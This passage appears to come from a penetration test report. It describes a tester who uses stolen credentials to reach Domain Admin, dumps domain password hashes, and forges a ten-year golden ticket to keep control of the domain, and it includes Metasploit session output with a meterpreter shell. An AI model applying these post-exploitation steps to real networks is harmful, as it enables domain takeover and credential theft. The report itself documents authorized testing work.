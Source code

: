 The tester noted that they had administrative privileges on the NAS server. Checking the sever groups and memberships, the only users with administrative prilileges were the local administrator account and domain administrators. The tester logged onto the domain controller with the stolen credentials and confirmed they were a member of the domain administrators group.

![domain_admin.png](images/domain_admin.png "Graham Corrigan is member of Domain Admins")

### Achieve domain dominance

Using meterpreter, the tester dumped the password hashes for the domain and created a golden ticket with a lifetime of 10 years so they could maintain dominance of the domain for the forseeable future.

```
msf exploit(handler) > sessions

Active sessions
===============

  Id  Type                   Information                      Connection
  --  ----                   -----------                      ----------
  1   meterpreter x86/win32  B2B\grahamc @ NAS                10.3.72.248:4444 -> 10.3.11.5:56358 (10.3.11.5)
  2   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ B2B-DC-M1  10.3.72.248:4444 -> 10.3.1.21:51974 (10.3.1.21)

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 3748 created.
```